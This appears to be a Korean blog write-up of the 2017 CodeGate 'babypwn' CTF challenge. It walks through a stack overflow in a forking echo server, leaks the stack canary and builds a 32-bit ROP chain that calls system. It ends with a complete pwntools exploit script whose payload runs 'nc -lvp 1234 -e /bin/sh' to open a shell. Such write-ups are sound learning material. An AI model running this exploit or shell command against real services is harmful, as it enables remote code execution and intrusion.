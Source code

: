 ```yaml
---
layout: post
title: "2017 CodeGate babypwn Write up"
excerpt: "Canary&ROP를 공부하기 적합한 문제"
date: 2020-08-17
categories: [system, ctf]
comments: true
---
```


이번에는 보호기법 중 StackCanary를 우회하여 32bit rop를 하는 문제를 풀어보았다. 

<h3> 0x0. Binary
</h3>

| canary  | fortify  | nx      | pie      | relro   |
| ------- | -------- | ------- | -------- | ------- |
| enabled | disabled | enabled | disabled | partial |



<h3>0x1. main
</h3>
코드의 메인을 확인해보면 그냥 소켓통신을 위한 코드인 것 같다.

```c
unsigned int __cdecl main(int a1, char **a2)
{
  socklen_t addr_len; // [esp+20h] [ebp-30h]
  int optval; // [esp+24h] [ebp-2Ch]
  int v5; // [esp+28h] [ebp-28h]
  struct sockaddr addr; // [esp+2Ch] [ebp-24h]
  struct sockaddr v7; // [esp+3Ch] [ebp-14h]
  unsigned int v8; // [esp+4Ch] [ebp-4h]

  v8 = __readgsdword(0x14u);
  if ( a1 == 2 )
    v5 = atoi(a2[1]);
  else
    v5 = 8181;
  dword_804B1BC = socket(2, 1, 0);
  if ( dword_804B1BC == -1 )
  {
    perror("[!] socket Error!");
    exit(1);
  }
  addr.sa_family = 2;
  *(_WORD *)addr.sa_data = htons(v5);
  *(_DWORD *)&addr.sa_data[2] = 0;
  bzero(&addr.sa_data[6], 8u);
  optval = 1;
  setsockopt(dword_804B1BC, 1, 2, &optval, 4u);
  if ( bind(dword_804B1BC, &addr, 0x10u) == -1 )
  {
    perror("[!] bind Error!");
    exit(1);
  }
  if ( listen(dword_804B1BC, 1024) == -1 )
  {
    perror("[!] listen Error!");
    exit(1);
  }
  while ( 1 )
  {
    while ( 1 )
    {
      addr_len = 16;
      fd = accept(dword_804B1BC, &v7, &addr_len);
      if ( fd != -1 )
        break;
      perror("[!] accept Error!");
    }
    if ( !fork() )
      break;
    close(fd);
    while ( waitpid(-1, 0, 1) > 0 )
      ;
  }
  sub_8048B87();
  close(dword_804B1BC);
  close(fd);
  return __readgsdword(0x14u) ^ v8;
}
```

코드를 확인해보면 특별한 값이 없으면 8181포트를 연결한다. 그럼 이제 sub_8048B87등의 기타 함수를 보자.

사실상 메인으로 보여지는 sub_

```c
unsigned int sub_8048A71()
{
  int v1; // [esp+1Ch] [ebp-3Ch]
  char v2; // [esp+24h] [ebp-34h]
  unsigned int v3; // [esp+4Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  memset(&v2, 0, 0x28u);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        sub_80488B1("\n===============================\n");
        sub_80488B1("1. Echo\n");
        sub_80488B1("2. Reverse Echo\n");
        sub_80488B1("3. Exit\n");
        sub_80488B1("===============================\n");
        v1 = sub_804895A();
        if ( v1 != 1 )
          break;
        sub_80488B1("Input Your Message : ");
        sub_8048907(&v2, 100);
        sub_80488B1(&v2);
      }
      if ( v1 != 2 )
        break;
      sub_80488B1("Input Your Message : ");
      sub_8048907(&v2, 100);
      sub_80489C8(&v2);
      sub_80488B1(&v2);
    }
    if ( v1 == 3 )
      break;
    sub_80488B1("\n[!] Wrong Input\n");
  }
  return __readgsdword(0x14u) ^ v3;
}
```

를 보면 변수의 메모리는 40인데 입력값을 100을 받는걸 볼 수 있고, 여기서 Bof 취약점이 발생한다.



<h3>0x2 Exploit Vector</h3>

이제는 어떻게 공격을 해보면 좋을지 생각해보자.  일단 Bof를 이용해야 하는데 NX bit가 있으므로 ROP를 이용할거다. 그리고 canary가 있으니 canary leak을 해야한다.

우선 canary값을 leak하는 코드이다 . 40바이트만 찍으면 나와야 하는데 41바이트를 해야 출력되는걸 봐서는 canary의 첫 바이트는 0x00임을 알 수 있다. 

```python
from pwn import *

p = remote('localhost',8181)
e = ELF("./babypwn")

ppppr = 0x08048eec
recv_plt = e.plt['recv']
system_plt = e.plt['system']

cmd = 'nc -lvp 1234 -e /bin/sh'

#stack canary leak
p.sendlineafter('> ','1')
p.sendafter(': ','A'*41)
leak = p.recv(1024)[41:44]
canary = u32('\x00' +leak)
print "[+] Stack Canary Leak :" +hex(canary)


p.close()

p = remote('localhost',8181)

p.sendlineafter('> ','1')

#ROP
pay = 'A'*40
pay +=  p32(canary)
pay += 'A'*12

pay += p32(recv_plt)
pay += p32(ppppr)
pay += p32(4)
pay += p32(e.bss())
pay += p32(len(cmd)+1)
pay += p32(0)

pay += p32(system_plt)
pay += 'A'*4
pay += p32(e.bss())

p.sendlineafter(': ', pay)
p.sendlineafter('> ','3')

sleep(1)

p.sendline(cmd)
```



이 문제는 리버스 커넥션을 이용하여 해결하였다. 거진 두달만에 ctf문제를 풀어보는 것 같은데, 많이 분발해야겠다. 

아직도 카나리를 릭하는걸 잘 못하겠다. + 리버스 커넥션 개념도 이번에 처음 이용해보았는데 좀 더 알고 써야겠다.
